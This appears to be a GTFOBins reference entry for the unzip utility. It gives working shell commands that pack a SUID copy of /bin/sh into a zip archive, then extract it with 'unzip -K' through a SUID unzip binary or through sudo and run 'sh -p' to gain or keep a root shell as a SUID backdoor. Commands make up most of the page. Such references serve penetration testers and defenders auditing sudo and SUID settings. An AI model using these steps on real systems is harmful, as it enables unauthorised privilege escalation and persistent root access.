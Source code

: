 # GTFOBin: unzip

Certain `unzip` versions allows to preserve the SUID bit. Prepare an archive beforehand with the following commands as root:

```
cp /bin/sh .
chmod +s sh
zip shell.zip sh

```

Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which unzip) .

./unzip -K shell.zip
./sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo unzip -K shell.zip
./sh -p
```